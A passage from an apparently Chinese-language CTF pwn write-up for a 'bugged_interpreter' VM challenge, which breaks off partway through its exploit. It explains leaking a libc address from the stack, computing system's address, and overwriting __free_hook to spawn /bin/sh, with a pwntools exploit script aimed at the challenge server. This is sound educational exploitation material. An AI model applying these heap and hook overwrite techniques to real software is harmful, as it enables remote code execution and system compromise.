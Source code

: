### Solution

1. 相当重要的一点是vm结构体内的**vm->call_stack[callsp].locals数组**给了我们一个绝佳的**数据存放处**，我们定义一些**"宏"**，可以很方便地用**LOAD和STORE**从中存取数据，同时也要注意维护**结构体中某些数据**在操作过程中保持不变，比如**code_size**，否则会出错。当然，虽然nglobals没有维护也没问题，但其实本应维护

2. 我们先把globals改写为code，因为**code在栈上**，用gdb找到一个libc函数地址到它的偏移，用GLOAD就可以把它存到vm结构体的stack中，由此也就可以读取它，算出**所有libc函数**在运行时被加载的地址。exp中，这个栈上的libc函数地址是**ibc_start_main + 243**

3. 同理用上面的方式**改写free_hook为system("/bin/sh")**，在vm_free中会**对globals进行free**，此时我们成功get shell

exp如下，具体操作见注释

```python
from pwn import *
# io = process('./bugged_interpreter')
io = remote('pwn.archive.xdsec.chall.frankli.site', 10083)
libc = ELF('./libc-2.31.so')
# context.terminal = ['tmux', 'splitw', '-h']
# gdb.attach(io, 'b* $rebase(0x1e45)')

# opcode
ADD = IADD = 1
PUSH = ICONST = 9
LOAD = 10
GLOAD = 11
STORE = 12
GSTORE = 13
POP = 15
HALT = 18

# C_SIZE is important!!!!!!!!!
C_SIZE = 0
C_ADDR_LOW = 1
C_ADDR_HIGH = 2
SYSTEM_ADDR_LOW = 3
SYSTEM_ADDR_HIGH = 4 # in fact, libc_addr_high!!!!
FREE_HOOK_8_LOW = 5

def formcode(cod):
    return b''.join(p32(x) for x in cod)

code = [
    POP, # Pop globals length and pointer                    
    POP,
    POP,

    POP, # Pop struct alignment
    STORE, C_SIZE, # Pop code_size
    STORE, C_ADDR_HIGH,
    STORE, C_ADDR_LOW,

    LOAD, C_ADDR_LOW,
    LOAD, C_ADDR_HIGH,
    LOAD, C_SIZE,
    PUSH, 0, # Write struct alignment

    LOAD, C_ADDR_LOW, # change globals -> code
    LOAD, C_ADDR_HIGH, # sp = -1
    PUSH, 0, # sp = 0 

    # GLOAD (libc_start_main + 243) into (vm.stack), use gdb to get offset!
    GLOAD, 0x87, # high 4 bytes
    GLOAD, 0x86, # low 4 bytes
    # use add to change low 4 bytes, now (system_real) is in (vm->stack)
    PUSH, libc.sym['system']-libc.sym['__libc_start_main']-243,
```